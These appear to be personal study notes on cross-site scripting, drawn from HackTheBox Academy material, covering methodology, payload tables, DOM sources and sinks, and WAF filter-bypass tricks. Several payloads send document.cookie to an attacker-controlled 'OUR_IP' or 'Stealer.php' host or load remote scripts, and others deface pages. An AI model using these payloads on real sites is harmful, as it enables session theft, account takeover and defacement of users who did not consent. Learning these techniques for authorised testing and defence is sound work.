 # XSS and CSRF
XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side. Of course these vulnerabilities run entirely within the browser's sandbox and is confined to what the browser can do.

# Resources
- [HTB Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/module/103/section/965)
- [HTB Advanced XSS and CSRF Exploitation Module](https://academy.hackthebox.com/module/235/section/2653)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Xss](https://portswigger.net/web-security/cross-site-scripting)
- [HackTricks XSS](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)
  
# Good Examples
- [Rook to XSS](https://skii.dev/rook-to-xss/?ref=weekly.infosecwriteups.com)
- [MySpace Samy worm](https://en.wikipedia.org/wiki/Samy_(computer_worm))
- [Twitter TweetDeck](https://blog.sucuri.net/2014/06/serious-cross-site-scripting-vulnerability-in-tweetdeck-twitter.html)
- [Google Search XSS](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)
- [Apache XSS](https://infra.apache.org/blog/apache_org_04_09_2010)

# Tooling
- [Nessus](https://www.tenable.com/products/nessus)
- [BurpSuite Pro](https://portswigger.net/burp/pro)
- [ZAP](https://www.zaproxy.org/)
- [XSS Strike](https://github.com/s0md3v/XSStrike)
- [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS)
- [XSSer](https://github.com/epsylon/xsser)

# Methodology TLDR
[HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html#methodology)
1. Check for any value or parameter you control (from input) is being REFLECTED in the page source or being USED by JavaScript in any of it's logic
2. If reflected (serverside), find it's context (raw HTML / HTML tag / JS code or function) and depending on it's context will dictate what you can or can not do
3. If used in client-side JavaScript, you could exploit a DOM XSS - pay attention how your input is controlled and if your controlled input is used by any sink.

# XSS Testing Payloads
Code review is the most reliable way to get a XSS rather than throwing automated tooling at a website. Remember to check where your input is presenting itself to understand the context and what will work depending on that (See Notes below).
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [PayloadBox](https://github.com/payloadbox/xss-payload-list)

| Description | Code |
|-------------|------|
| Check for filtering (See Notes below) | ;:!--''" <SCs>=&{[(`)]}//. |
| Basic XSS Payload | `<marquee>` |
| Basic XSS Payload | `<script>alert(window.origin)</script>` |
| Basic XSS Payload | `<script>alert(1)</script>` |
| Basic XSS Payload that stops rendering the HTML code that comes after it and display it as plaintext.  | `<plaintext>` |
| Basic XSS Payload | `<script>print()</script>` |
| HTML-based XSS Payload | `<img src="" onerror=alert(window.origin)>` |
| Change Background Color | `<script>document.body.style.background = "#141d2b"</script>` |
| Change Background Image | `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` |
| Change Website Title | `<script>document.title = 'HackTheBox Academy'</script>` |
| Overwrite website's main body | `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` |
| Remove certain HTML element | `<script>document.getElementById('urlform').remove();</script>` |
| Load remote script to look for blind XSS | `<script src="http://OUR_IP/script.js"></script>` |
| Send Cookie details to us | `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` |

# XSS Payloads
| Description | Code |
|-------------|------|
| Cookie Stealing XSS | <script>document.write('<img src="http://<Your IP>/Stealer.php?cookie=' %2B document.cookie %2B '" />');</script> |
| Forcing the Download of a File | <script>var link = document.createElement('a'); link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = ''; document.body.appendChild(link); link.click();</script> |
| Redirecting User | <script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script> |

Kim, Peter. The Hacker Playbook 3: Practical Guide To Penetration Testing (p. 93). Secure Planet. Kindle Edition. 
# Notes
## Stored XSS
Most critical where the injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

## Reflected XSS (Not stored)
2 types, both non-persistent:
- `Reflected` payload gets processed by the back-end server - server-side vulnerability
- `DOM-based XSS` payload is completely processed on the client-side and never reaches the back-end server. Nothing in the network tab - therefore client-side vulnerabiltiy. DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

For DOM-based XSS - you need to understand SOURCE and SINK. The Source is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above. On the other hand, the Sink is the function that writes the user input to a DOM Object on the page. If the Sink function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used 

Some of the commonly used JavaScript functions to write to DOM objects are:
- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the jQuery library functions that write to DOM objects are:
- `add()`
- `after()`
- `append()`
  
If a Sink function writes the exact input without any sanitization (like the above functions), and no other means of sanitization were used, then we know that the page should be vulnerable to XSS.

## Blind XSS
Occurs when the vulnerability is triggered on a page we don't have access to like forms only accessible by priivleged users. Some potential examples include:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

The following will let us know which of the fields (`fullname` or `username`) is vulnerable based of what we see on our listener:
```js
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```



## Same-Origin Policy (SOP) 
Tries to set boundaries by preventing one origin (website) from accessing resources from another origin. A different origin is defined by something that has a different protocol (`http` vs `https`), domain (`example.com` vs `google.com`) and port (`80` vs `443`)

## Content Security Policy (CSP) 
Also tries to add an additional later that lets websites declare which sources of content are trusted. e.g Without CSP an attacker can injects `<script>steal(document.cookie)</script>`. However, the SOP would limit the damage - the malicious script would only be able to access data from the current origin, not from the user's other tabs. If the CSP blocking inline scripts, that injection would be blocked. 

## Where is the output presenting itself?
Determine where your input is getting printed in the HTTP response we receive back:
- Inside the head or body: Easy, just use your regular HTML tags like `<script>alert(1)</script>` or load an external script `<script src=https://onofri.org/security/xss.js></script>.`
- If you are inside a comment, you have to escape out of the comment: `--><script>alert(1)</script>`
- Same applies to `<textarea>` - we have to escape it first with `</textarea><script>alert(1)</script>`
- If we are inside a HTMl attribute we can try terminate it right before our payload (vector). An attribute can be delimited by single or double quotes or whitespace. Then we close the tag and place our payload e.g `'><script>alert(1)</script>` or `"><script>alert(1)</script>`
- If we can't escape out of an attribute we might be able to abuse it itself: e.g if we are in a `href` or `src` attribute we can use it directly with: `javascript:alert(1)` but each attribute/element might behave a little differently. And `"onmouseover="alert(1)` or  `'onmouseover='alert(1)` are valid for most.
- If we're in JS code it depends where we are in the code, JS comments are `//`, it's line terminator is `;` and of course `'` + `"`
- Markdown XSS is a thing: `[xss[(javascript:alert('1'))`

## When is our input getting processed?
`<script>alert(1)</script>` is triggered on page load. However if our payload loads dynamically, such as `<img src=x onerror-alert(1)>`, this may be advantageous since onerror is triggered dynamically. Which means:
- Harder for security scanners to detect since the malicious code isn't present during initial page analysis :point_left:
- Can bypass some client-side filters that only check content on page load :point_left:
- Often involves content that gets injected into the DOM after the page has already loaded

# XSS Filter Bypasses
- [OWASP FIlter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
Client-side filters are relatively easy to bypass with BurpSuite, Server-side filters like a WAF or integrated into the app vary in effectiveness as it depends largely on their config.

How might these filters be implemented?
- Allow listing (Whitelisting) of allowed elements, attributes or characters.
- Blacklisting of allowed elements, attributes or characters.
- Filters are often layered. A payload may pass one filter but get caught by another
- Input could be truncated after a certain number of characters so worth trying short payloads. Some browsers will let you omit `http` or `https` by using `//` e.g `<script/src=//v.ht/aa`
- HTML is case-sensitive whilst JavaScript is not.
- Authors favourite way to evaluate what characters are encoded or not, as it will help determine which useful characters are permitted, encoded, removed and whether the input is in upper or lowercase:
```
;:!--''" <SCs>=&{[(`)]}//.
```
Weak Blacklists:
- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space allowed: `<svg/onload=alert(1)>`
- If `img` is blocked, try `audio` or `video`
- If `alert` is blocked, try `prompt` or `confirm`
- If parenthesis `()` are blocked, try the back tick `
- To combine the last 3:
```
<audio src onloadstart=confirm`1`>
```
- Partial encoding e.g if the string `javascript:` is blocked, try `j&#X41vascript:`

JavaScript Encodings
- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

String Creation
- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

Execution Sinks:
- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`

---

# Tricks & Quirks
- XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
- If you're defacing, you can always open the `.html` locally to test how it looks
- Email fields usually must match an email format, even if we try manipulating the HTTP request parameters, as it's usually validated on both the front-end and the back-end. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
- Most common XSS protections are length issues and not allowing < or > or according to THP1.

# HTB Module questions
## Cross-Site Scripting (XSS)
## Advanced XSS and CSRF Exploitation
